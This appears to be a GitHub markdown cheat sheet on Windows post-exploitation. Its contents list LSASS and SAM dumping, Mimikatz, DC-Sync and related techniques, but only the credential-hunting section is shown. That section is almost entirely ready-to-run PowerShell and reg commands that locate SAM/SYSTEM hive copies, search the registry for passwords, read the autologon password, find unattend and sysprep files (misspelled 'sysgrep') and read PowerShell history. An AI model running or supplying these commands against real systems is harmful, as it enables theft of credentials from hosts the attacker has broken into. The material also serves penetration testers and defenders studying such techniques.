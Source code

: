 # Post-Exploitation

* [General](#General)
* [Find credentials in files](#Find-credentials-in-files)
* [Dumping LSASS](#Dumping-LSASS)
* [Dumping SAM](#Dumping-SAM)
* [Mimikatz](#Mimikatz)
* [Rubeus](#Rubeus)
* [DC-Sync](#DC-Sync)
* [Shadowcopy](#Shadowcopy)
* [Token manipulation](#Token-manipulation)
* [DPAPI](#DPAPI)
* [KeePass](#KeePass)

## General

## Find credentials in files
#### Look for SAM files
```
Get-ChildItem -path C:\Windows\Repair\* -include *.SAM*,*.SYSTEM* -force -Recurse 
Get-ChildItem -path C:\Windows\System32\config\RegBack\*  -include *.SAM*,*.SYSTEM* -force -Recurse
Get-ChildItem -path C:\* -include *.SAM*,*.SYSTEM* -force -Recurse 
```

#### Check registery for passwords
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Find autologon credentials registery key
```
Get-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" -Name "DefaultPassword"
```

#### Look for unattend and sysprep files
```
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*
Get-ChildItem -path C:\Windows\Panther\* -Recurse -Include *Unattend.xml* 
Get-ChildItem -path C:\Windows\system32\* -Recurse -Include *sysgrep.xml*, *sysgrep.inf* 
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*, *sysgrep.xml*, *sysgrep.inf* 
```

#### Get powershell history path and cat history
```
Get-PSReadlineOption
cat <path>
```

#### Look for powershell history files
```
Get-Childitem -Path C:\Users\* -Force -Include *ConsoleHost_history* -Recurse -ErrorAction SilentlyContinue
```

